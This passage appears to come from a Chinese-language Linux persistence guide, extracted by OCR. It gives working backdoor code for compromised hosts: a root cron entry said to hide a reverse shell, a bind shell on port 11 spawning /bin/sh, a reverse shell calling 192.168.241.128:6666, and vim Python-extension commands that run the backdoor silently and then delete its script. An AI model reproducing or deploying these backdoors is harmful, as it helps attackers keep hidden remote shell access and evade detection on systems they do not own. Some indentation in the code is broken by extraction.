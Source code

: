 计划任务路径

~~~
cat /var/spool/cron/crontabs/root
root是计划任务的文件 使用cat是看不到内容的 因为是用了某些特殊字符 导致某些内容被隐藏
可以使用 crontab -e 编辑任务可以看到反弹shell的内容
~~~

## 5. vim python 扩展后门(**)

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统。



~~~
cd /usr/lib/python2.7/site-packages && $(nohup vim -E -c "pyfile dir.py">
/dev/null 2>&1 &) && sleep 2 && rm -f dir.py

(nohup vim -E -c "py3file dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f
dir.py
~~~

恶意脚本 dir.py 的内容可以是任何功能的后门，比如监听本地的11端口：

正向后门

~~~python
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
    server=socket(AF_INET,SOCK_STREAM)
    server.bind(('0.0.0.0',11))
    server.listen(5)
    print ('waiting for connect')
    talk, addr = server.accept()
    print ('connect from',addr)
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
        stdout=talk, stderr=talk, shell=True)
~~~

反向后门

~~~python
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("192.168.241.128", 6666));
os.dup2(s.fileno(), 0);
os.dup2(s.fileno(), 1);
os.dup2(s.fileno(), 2);
p = subprocess.call(["/bin/sh", "-i"]);
~~~

隐藏后门

~~~
(nohup vim -E -c "py3file shell.py"> /dev/null 2>&1 &)
#将nohup的执行结果输出到/dev/null中
#其中/dev/null在linux中代表空设备，结果输出到空设备也就是丢弃nohup的执行结果。
#“2”在linux中代表错误输出，“1”在linux中代表标准输出，在此处也就是nohup的输出。2>&1表示将错误
输出绑定到标准输出上，在此处也就是将错误输出同样输出到空设备上不进行显示。这样，无论nohup执行结
果是否正确，都不会有输出。
~~~
